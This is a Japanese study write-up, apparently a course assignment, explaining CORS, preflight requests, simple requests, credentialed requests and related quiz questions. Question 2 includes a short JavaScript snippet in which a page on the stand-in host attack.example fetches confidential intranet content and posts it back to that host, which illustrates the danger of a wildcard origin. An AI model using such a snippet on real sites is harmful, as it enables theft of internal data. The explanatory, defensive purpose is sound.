 # 課題6

## 課題1

### 問題1

Wev APIを利用したアプリケーションではよく、フロントエンドとバックエンドが別々のオリジンで配信される。
しかし、画面生成元のオリジンとリクエスト先のオリジンが異なる場合、同一オリジンポリシーによりレスポンスを処理することができない。
外部サイトからの不適切なAPIの利用を防ぐには都合がよいが、異なるオリジンにある正規サイトから利用する際には不都合が生じる。
そこで、正規のサイトのオリジンを許可することで制限を限定的に解除できる仕組みが「CORS（Cross-Origin Resource Sharing: オリジン間リソース共有）」と言う。  

異なるオリジンのAPIサーバーに対してリクエストを送信するとき、ブラウザはOriginリクエストヘッダーに現在のオリジンを付与する。
APIサーバーはOriginリクエストヘッダーを確認することで、どのオリジンからのリクエストか把握することができ、そのオリジンからのアクセスを許可する場合は、Access-Control-Allow-Originレスポンスヘッダーに許可するOriginを付与して返す。
レスポンスを受信したブラウザは、Access-Control-Allow-Originレスポンスヘッダーを確認し、アクセスが許可されているオリジンであれば、レスポンスを処理する。  

さきほど、APIサーバーはOriginリクエストヘッダーを確認すると述べたが、サーバー側は確認するために異なるオリジンであれ、リクエストを受け取っている。
つまり、サーバー側でリクエストに対する処理が行われることを意味する。
例えば、APIサーバーにDELETEリクエストを送信したとする。
もし、APIサーバーがCORSに対応しておらず、Originリクエストヘッダーを制限する実装になっていなかったら、このDELETEリクエストを受け入れ削除を実行してしまう。
ただし、CORSに対応していないためレスポンスにAccess-Control-Allow-Originレスポンスヘッダーは無い。
すると、ブラウザはレスポンスを確認してCORS違反と判断しエラーにするが、サーバー側での削除処理は実行されてしまう。
そのため、サービスに重大な影響を及ぼす恐れのある操作は、Access-Control-Allow-Originレスポンスヘッダーを確認したブラウザが処理を実行する前に、リクエストそのものを止めなければならない。
これを解決するために、今から送ろうとしているCORSリクエストをAPIサーバーが許可しているのか確認するために、Preflight Requestが考案された。  

Preflight Requestはサーバーに事前確認を行うために、ブラウザによって自動で送信される。
例えば、DELETEのリクエストを送信しようとすると、ブラウザは次のようなPreflight Requestのリクエストを送信する。

```
OPTIONS /resource/foo
Access-Control-Request-Method: DELETE
Access-Control-Request-Headers: origin, x-requested-with
Origin: https://foo.bar.org
```

[参考](https://developer.mozilla.org/ja/docs/Glossary/Preflight_request)  

ブラウザは、OPTIONSメソッドでAccess-Control-Request-Methodリクエストヘッダーにこれから送信するメソッドを付与し、リクエストを送信する。
サーバーが許可している場合は、次のようなPreflight Requestへのレスポンスを返す。

```
HTTP/1.1 204 No Content
Connection: keep-alive
Access-Control-Allow-Origin: https://foo.bar.org
Access-Control-Allow-Methods: POST, GET, OPTIONS, DELETE
Access-Control-Max-Age: 86400
```

[参考](https://developer.mozilla.org/ja/docs/Glossary/Preflight_request)

そして、サーバーはAccess-Control-Allow-Methodsレスポンスヘッダーに許可しているメソッドをブラウザに伝える。
受け取ったブラウザは、「このサーバーはCORSに対応しており、このOriginからのDELETEを許可している」と判断し、実際のリクエストを送信する。
これにより、CORSが許可されていない場合でも、実際のDELETEリクエストを送らず、サービスに意図しない影響が発生するのを防ぐことができる。

一方で、Preflight Requestが不要なリクエストをSimple Requestと呼ぶ。
Simple Requestについては後述する。

### 問題2

Access-Control-Allow-Origin: * は、すべてのオリジンからのリクエストを許可する。
これは、攻撃者に重要な情報が盗まれる可能性がある。  
例えば、 https://company.example は、外部に漏れてはいけない社外秘の情報があり、社内ネットワークに接続した社員のみアクセスできるとする。
また、社員は社内ネットワークだけはなく、社外ネットワーク（インターネット）にもアクセスすることができる。  
攻撃者は、その社外秘の情報を盗むために、Webサイト https://attack.example を用意し、社員がアクセスするように何らかの方法で誘導する。
社員がこの悪意あるサイトにアクセスすると、攻撃者に仕込まれていた次のようなJavaScriptにより、社外秘の情報が盗まれてしまう。

``` JavaScript
// Attackから社外秘の情報を取得する
const res  = await fetch("https://company.example")
const text = await res.text()

// その情報をAttackに転送する
await fetch("https://attack.example", {
  method: "post",
  body:   text
})
```

このような攻撃が成立しないようにするために、Access-Control-Allow-Originには、信頼できるオリジンを設定した方が良い。

### 問題3

- 仕様で定義された[CORS-Safelisted Method](https://fetch.spec.whatwg.org/#cors-safelisted-method)および[CORS-Safelisted Request Header](https://fetch.spec.whatwg.org/#cors-safelisted-request-header)を満たしていること。

- Content-Typeヘッダーでは以下の値のみが使用されていること。
  - application/x-www-form-urlencoded
  - multipart/form-data
  - text/plain
- リクエストに使用されるどのXMLHttpRequestUploadにもイベントリスナーが登録されていないこと。
- リクエストに ReadableStream オブジェクトが使用されていないこと。  
[参考](https://developer.mozilla.org/ja/docs/Web/HTTP/CORS#simple_requests)

### 問題4

CORS エラーが発生し、ブラウザによりレスポンスがブロックされる。

```
Access to fetch at 'http://localhost:8080/' from origin 'https://a3a6a06d6fa0.ngrok.io' has been blocked by CORS policy: The 'Access-Control-Allow-Origin' header has a value 'http://localhost:3000' that is not equal to the supplied origin. Have the server send the header with a valid value, or, if an opaque response serves your needs, set the request's mode to 'no-cors' to fetch the resource with CORS disabled.
```

### 問題5

フロントエンド

- XMLHttpRequest.withCredentialsをtrueに設定する

バックエンド

- access-control-allow-credentialsにtrueを設定する
- Cookieを設定する際にSameSite属性をNoneにする

[参考](https://qiita.com/y_tochukaso/items/78972e0e2917bb11fa10)

## 課題2

### クイズ1

xxxxxx-xxxxxxx-xxx-xxx レスポンスヘッダーを指定することができる。このレスポンスヘッダーに秒数を指定すると、その期間内は同じレスポンスに含まれる Access-Control-Allow-Methods と Access-Control-Allow-Headers の情報をキャッシュ可能にし、 Preflight Request の省略を許可できる。

xxxxxx-xxxxxxx-xxx-xxx レスポンスヘッダーはなんでしょう？

### クイズ2

xxxxxx-xxxxxxx-xxx-xxx（クイズ1の答え） レスポンスヘッダーのデフォルト値は何秒？

[参考](https://fetch.spec.whatwg.org/#http-access-control-max-age)

### クイズ3

HTTP ヘッダは様々な中継サーバによって追加されることがあり、重要な情報を含みます。その中には、JavaScriptから取得されることを想定していないものも多く、それが脆弱性の原因になる可能性があります。そこでJavaScriptからアクセス可能なヘッダが限定されています。明示的な許可がなくアクセス可能なヘッダは次のうちどれでしょう？

- Connection
- Content-Type
- Authorization

[CORS-Safelisted Response Header](https://fetch.spec.whatwg.org/#cors-safelisted-response-header-name)  
[Access-Control-Expose-Headers](https://developer.mozilla.org/ja/docs/Web/HTTP/Headers/Access-Control-Expose-Headers)

## 課題4

適用されない。  
CORSはブラウザの仕組みであり、CORSの制約はcURLには適用されない。

> ブラウザーがオリジンをまたいだリクエストのレスポンスに、フロントエンドの JavaScript コードがアクセスすることをブロックするかどうかを決めるものです。

[CORS](https://developer.mozilla.org/ja/docs/Glossary/CORS)  
[参考](https://rso.hateblo.jp/entry/2019/02/13/225329)
